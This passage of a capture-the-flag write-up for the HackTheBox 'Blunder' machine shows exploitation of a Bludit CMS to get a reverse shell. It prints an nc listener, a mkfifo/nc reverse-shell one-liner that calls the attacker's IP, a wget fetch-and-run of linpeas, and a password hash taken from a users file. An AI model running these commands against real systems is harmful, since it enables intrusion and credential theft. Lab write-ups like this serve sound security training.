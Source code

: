 Step 5. Change the exploit extention from .txt to .py
```
cp 48701.txt bludit.py
```

Step 6. Upload the payload using the script
```
python bludit.py
```

Step 7. Start a nc listener
```
nc -nlvp 4444
```

Step 8. Execute the payload by opening the evil.png file in the browser
```
http://blunder.htb/bl-content/tmp/temp/evil.png
```

And we get a reverse shell as user www-data.

## Lateral Movement
---
Looking around we can see 2 users in the /home directory. User hugo and user shaun however only hugo has a user.txt file that only hugo has read access so looks like he will likely be the next target to pivot to.

I kept losing connection so I decided to run another netcat connection.

```
kali: nc nlvp 4445

blunder: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4445 >/tmp/f
```

### linPEAS

We can run [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to do some more information gathering. Curl doesn't seem to be installed to i'll use wget to download linpeas and run it.

kali: 
```
python -m SimpleHTTPServer 80
```

blunder:
```
wget http://10.10.14.12/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

One interesting finding listed is: `/var/www/bludit-3.10.0a/bl-content/databases/users.php:        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d"` which we can look at more closely.

### Bludit stored credentials
